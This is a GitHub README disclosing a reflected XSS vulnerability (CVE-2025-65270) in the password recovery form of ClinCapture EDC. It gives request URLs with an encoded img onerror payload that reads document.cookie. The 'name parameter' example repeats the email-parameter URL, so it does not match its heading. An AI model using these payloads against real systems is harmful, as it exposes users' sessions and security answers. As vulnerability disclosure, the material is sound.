



# CVE-2025-65270

## ⚠️ Disclaimer
This repository is **for educational and defensive security research only**

## 🔥 Overview
Reflected cross-site scripting (XSS) vulnerability in **ClinCapture EDC 3.0 and 2.2.3**, allowing an unauthenticated remote attacker to execute JavaScript code in the context of the victim's browser.



## 🧪 Proof of Concept

To demonstrate the vulnerability, you need to go to the password recovery tab and specify the payload in the name or email parameter or send one request

### 🔓 Via name parameter
```
<url>/edc/RequestPassword?action=submit&name=text&email=test@domain.com%22%3E%3Cimg%20src%3dx%20onerror%3dalert(document.cookie)%3E&passwdChallengeQuestion=favorite_animal&passwdChallengeAnswer=&Submit=Submit
```


### 🔓 Via email parameter
```
<url>/edc/RequestPassword?action=submit&name=text&email=test@domain.com%22%3E%3Cimg%20src%3dx%20onerror%3dalert(document.cookie)%3E&passwdChallengeQuestion=favorite_animal&passwdChallengeAnswer=&Submit=Submit
```


## 🚨 Impact

An unauthenticated user can execute JavaScript code in the context of the victim's browser, aimed at performing actions on behalf of the victim or stealing confidential information, such as the answer to a security question
